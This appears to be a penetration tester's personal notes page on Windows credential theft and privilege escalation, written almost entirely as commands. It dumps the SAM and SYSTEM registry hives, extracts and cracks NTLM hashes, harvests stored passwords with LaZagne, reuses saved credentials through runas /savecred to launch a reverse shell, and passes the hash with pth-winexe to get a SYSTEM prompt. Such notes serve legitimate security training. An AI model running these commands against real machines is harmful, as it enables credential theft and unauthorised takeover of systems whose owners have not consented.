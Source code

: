```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Reg save

```command prompt - target
reg save HKLM\SAM c:\SAM
```

```command prompt - target
reg save HKLM\System c:\System
```

[[4._File Transfers]]

```bash - kali
samdump2 -o hashes System SAM
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NTLM]]


#### Lazagne

```
lazagne.exe all
```

#### Saved creds
1. Use winPEAS to check for saved credentials:

```command prompt - windows
.\winPEASx64.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.

3. We can verify this manually using the following command:

```command prompt - windows
cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```command prompt - windows
C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

#### SAM
1. Backups of the SAM and SYSTEM files can be found in ===C:\Windows\Repair== and are readable by our user.

2. Copy the files back to Kali:

[[4._File Transfers]]

3. Download the latest version of the creddump suite:

```bash - kali
git clone https://github.com/Neohapsis/creddump7.git
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```bash - kali
python2 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```bash - kali
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```


#### Pass the Hash
1. Extract the admin hash from the SAM in the previous step.

2. Use the hash with pth-winexe to spawn a command prompt (empty LM hash):

```bash - kali
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```bash - kali
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

